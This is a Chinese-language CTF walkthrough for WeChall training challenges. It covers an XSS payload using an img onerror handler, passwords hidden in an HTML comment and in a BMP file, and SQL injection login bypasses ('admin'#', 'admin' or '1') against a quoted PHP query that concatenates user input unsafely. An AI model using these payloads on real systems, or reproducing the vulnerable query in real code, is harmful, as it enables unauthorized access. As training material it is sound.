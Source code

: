 通过 img 标签的错误事件（随便请求一张图片）注入js事件

```html
<img src=x onerror=alert(xss)> 
```

## We Chall

[WeChall](https://www.wechall.net/)

### Training

#### Training: Get Sourced

`F12`查看`HTML`源码，答案写在注释里，藏在`body`的右下方

~~~html
<!-- Now this is a comment! -->
<!-- You are looking for this password: html_sourcecode -->       
</body></html>
~~~

#### Training: Stegano Ⅰ

通过`html`代码找到图片源下载，得到`btegano1.bmp`，直接用记事本或者`notepad++`打开，或修改后缀为`.txt`打开，可得到答案

~~~
BMf       6   (               0                   Look what the hex-edit revealed: passwd:steganoI
~~~

可以用`notepad++`等编辑器打开`bmp`文件，在末尾加入文字信息（若用记事本直接修改将损坏文件）

### SQL

#### Training: MySQL Ⅰ

查看后端源码发现登录的`SQL`语句是这么写的，同时发现了管理员用户名`admin`

~~~php
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
~~~

可以在传入用户名时动手脚

1、传入`admin'#`，这样`sql`语句的字符串将变成

~~~
"select * from users where username='admin''#..."
~~~

于是验证密码的部分被替换为`sql`注释，因为`admin`存在，返回一定为真

2、传入`admin' or '1`

~~~sql
select * from users where username='admin' or '1' and password='$password'
~~~

同样因为掺入了`1`，于是返回始终为真
